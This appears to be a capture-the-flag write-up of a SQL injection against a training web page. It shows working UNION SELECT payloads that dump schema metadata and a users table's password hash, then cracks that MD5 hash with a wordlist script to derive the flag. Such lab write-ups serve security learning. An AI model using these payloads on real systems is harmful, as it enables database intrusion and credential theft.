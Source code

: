 We identified a security vulnerability in the input field located at `http://IP/index.php?page=member`.

Entering certain input, such as `union` triggers a SQL error that indicates SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.<br />
<br />
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT first_name, last_name FROM users WHERE users.user_id = ${input_value}
```
This query prints the first name and last name of the member with the given member ID. Since we don't need the website to display data about any specific member, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, which combines the result sets of two or more `SELECT` statements:
```
SELECT first_name, last_name FROM users WHERE users.user_id = -1 UNION SELECT XXX FROM XXX
```

We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROm information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

The result reveals a `users` table and two interesting columns: `Commentaire` and `countersign`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT commentaire, countersign FROM users
```

OUTPUT:
```
ID: -1 union select commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Since the password appears to be a hash, we need to determine the hash type before obtaining the original string. For this, we will use the hash-identifier tool on Kali Linux:
```
user@kali:~$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Now, it has been determined that the password is likely hashed with `MD5`. We will proceed to generate a word list in `wordlist.txt` and create a script named `md5comparer.sh`. The script will hash each word from the word list using MD5 and compare the generated hashes with the password until a match is found:
```
user@kali:~$ bash md5comparer.sh wordlist.txt 5ff9d0165b4f92b14994e5c685cdce28
no match found for: 'quarantedeux'
no match found for: 'quarante-deux'
no match found for: 'quarante_deux'
no match found for: 'Quarante-Deux'
no match found for: 'QuaranteDeux'
no match found for: '42'
no match found for: 'fortytwo'
no match found for: 'forty-two'
no match found for: 'forty_two'
no match found for: 'Forty-Two'
HASHES MATCH FOR: 'FortyTwo'
Found match, exiting...
```
Here, a match is found for `FortyTwo`. Let's recall the discovered instruction:
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

We will, therefore, convert all the characters to lowercase: `FortyTwo -> fortytwo`

...and hash it with SHA-256:
```
user@kali:~$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
Thus, the flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.
